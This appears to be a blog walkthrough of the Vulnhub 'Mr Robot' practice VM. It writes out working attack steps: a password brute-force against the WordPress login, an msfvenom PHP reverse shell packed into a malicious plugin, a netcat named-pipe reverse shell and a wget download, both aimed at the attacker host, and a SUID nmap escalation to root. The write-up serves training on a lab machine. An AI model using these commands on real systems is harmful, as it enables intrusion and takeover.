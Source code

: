 ```yaml
---
layout: post
title: Mr Robot VM Walkthrough
description: Walkthrough of Vulnhub's Mr Robot VM
image: public/posts/mrrobot/mr-robot.png
---
```


# Walkthrough

![Hackerman rhapsody]({{ site.url }}/public/posts/mrrobot/mr-robot.png "Hackerman rhapsody")

As stated, this machine wasn't too difficult but it was fun nevertheless. I rooted it as part of a work presentation to showcase a common intrusion scenario.

[Mr Robot on Vulnhub](https://www.vulnhub.com/entry/mr-robot-1,151/)

## Enumeration

Running Nikto against the IP, we have a few indications of vulnerabilities, the most interesting (for now) being this one:

> -   Server leaks inodes via ETags, header found with file /robots.txt, fields: 0x29 0x52467010ef8ad

If we check robots.txt's contents, it's indeed interesting:

```sh
curl http://$ip/robots.txt
```

```
User-agent: \*
fsocity.dic 
key-1-of-3.txt
```

Checking the files, one of them is obviously one of the keys, the other seems to be a dictionary file. Maybe it'll be useful later? (Spoilers: it will)

Nikto also shows us that this is a wordpress installation. Its version is under <http://mrrobot/wp-links-opml.php>, and it is WordPress/4.3.16.

Seems like there are some vulnerabilities we can use.

Let's check for extra info there:

```sh
wpscan --url $ip
```

## Low-privilege shell

Now we can try to crack the password using the given dictionary file and username elliot (how I found it? Guessing. Not surprising for a VM called 'Mr Robot', huh? You could say this is part of information gathering, social engineering or whatever. It's why any small piece of info matters for an attacker.)

```sh
medusa -f -h mrrobot -u elliot -P /root/vulnhub/mrrobot/fsocity.dic -M web-form -m FORM:"wp-login.php" -m DENY-SIGNAL:"ERROR" -m FORM-DATA:"post?log=&pwd=&"
```

After a non-trivial amount of time, we figured out the password is ER28-0652. On to the admin panel!

Tip: We can check for vulnerable versions of plugins with the following command:

```sh
wpscan --url http://$ip --enumerate vp
```

We can upload a malicious plugin to give us access to the WP host. Basically it's a PHP file with some extra stuff added.

```sh
msfvenom -p php/reverse_php LHOST="$iattacker" LPORT=80 2>>/dev/null
```

After editing it under wp-rev-shell.php, we'll get a WP plugin, something that looks like the following:

```php
 <?php
/**
 * Plugin Name: RevShell
 * Version: 5.10.3
 * Author: Progfrog
 * Author URI: http://Progfrog.com
 * License: GPL2
 */
// msfvenom payload here, omitted for brevity...
?>
```

Then we can zip it:

```sh
zip plugin.zip wp-rev-shell.php
```

After adding it there and activating it, we can get a reverse shell by visiting <http://mrrobot/wp-content/plugins/revshell_/wp-rev-shell.php>:

Apparently we have something readable under /home/robot:

```sh
cat /home/robot/password.raw-md5
```

```
robot:c3fcd3d76192e4007dfb496cca67e13b
```

Guess what is that? A password that we can crack with some feline help:

![Sadly not the first result when searching for 'hash cat']({{ site.url }}/public/posts/mrrobot/hashcat-crazy.gif "Sadly not the first result when searching for 'hash cat'")

```sh
echo c3fcd3d76192e4007dfb496cca67e13b > password.raw.md5
```

```sh
hashcat -a 0 password.raw.md5 --force
```

Or, if you value your time and your machine's ALU, go to <https://crackstation.net/> and paste the hash there. It'll spit out that the password is abcdefghijklmnopqrstuvwxyz.

Unfortunately we still need to get a proper tty. We're running code in context of the web server, which is why 1) our session is short-lived and 2) we never get a tty. We can use <span class="underline">another</span> session to spawn a proper interactive shell and go from there.

Apparently we're running bash, so we can use some of the [usual bash tricks](https://highon.coffee/blog/reverse-shell-cheat-sheet/) for getting a reverse shell:

```sh
rm /tmp/pipe;mkfifo /tmp/pipe;cat /tmp/pipe|/bin/sh -i 2>&1|nc $iattacker 9999 >/tmp/pipe
```

Then we can finally use the discovered password:

```sh
su robot
```

Another step closer:

```sh
cd ~
cat key-2-of-3.txt
```

```
822c73956184f694993bede3eb39f959
```

## Privilege escalation

Let's run the usual recon scripts:

```sh
cd /tmp
wget iattacker/linuxprivchecker.py
python linuxprivchecker.py > /tmp/lpc-results.txt
```

Looking at this file, we can see something interesting under the SUID binaries: nmap is there. It shouldn't be, since it allows us to execute code with the '&#x2013;interactive' flag, even pop a shell. Let's see if it works&#x2026;

```sh
nmap --interactive
```

```sh
!sh
```

In this new shell, who are we?

```sh
id
```

```
uid=1002(robot) gid=1002(robot) euid=0(root) groups=0(root),1002(robot)
```

This means that now we can do everything in the system, and our work here is done.

![(g)root dance!]({{ site.url }}/public/posts/mrrobot/groot-dance.gif "(g)root dance!")
